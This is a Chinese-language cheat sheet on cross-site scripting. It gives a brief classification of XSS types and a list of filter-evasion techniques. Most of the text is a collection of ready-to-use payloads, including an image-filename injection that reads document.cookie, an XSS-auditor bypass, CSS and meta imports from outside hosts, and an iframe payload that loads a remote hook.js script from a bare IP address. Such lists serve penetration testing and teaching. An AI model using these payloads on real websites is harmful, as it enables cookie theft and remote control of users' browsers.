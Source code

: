 XSS
================================

分类
--------------------------------
反射型xss
    一次浏览
    最常见，最广泛
    e.g http://www.baidu.com<script>alert("hack")</script>
储存型xss
    危害较大
    把相应脚本传到服务器上
DOMxss
    类似储存型


技巧
--------------------------------
1. 利用<>标记
2. 利用html属性
    - href
    - lowsrc
    - bgsound
    - background
    - value
    - action
    - dynsrc

3. 利用回车拆分关键字
4. 利用编码绕过
    - jsfuck
    - String.fromCharCode
    - HTML
    - URL

5. 大小写混淆
6. 对标签属性值转码
7. 产生事件
8. css跨站解析


CSP
--------------------------------
Content Security Policy，简称 CSP。顾名思义，这个规范与内容安全有关，主要是用来定义页面可以加载哪些资源，减少 XSS 的发生。

Bypass

如果网站设置了CDN为secure,那么可用CDN bypass


payload
--------------------------------

常用
::

    <script>alert(/xss/)</script>

伪协议
::

    <table background="javascript:alert(/xss/)"></table>

Chrome XSS auditor bypass with HPP:
::

    ?param=https://&param=@z.exeye.io/import%20rel=import%3E

长度限制
::

    <script>s+="l"</script>
    \...
    <script>eval(s)</script>

jquery sourceMappingURL
::

    </textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>

图片名
::

    "><img src=x onerror=alert(document.cookie)>.gif

过期的payload
::
    
    src=javascript:alert 基本不可以用
    css expression特性只在旧版本ie可用

css
::

    <div style="background-image:url(javascript:alert(/xss/))">
    <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

iframe
::

    <iframe onload='
        var sc   = document.createElement("scr" + "ipt");
        sc.type  = "text/javascr" + "ipt";
        sc.src   = "http://1.2.3.4/js/hook.js";
        document.body.appendChild(sc);
        '
    />

meta
::

    <META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">

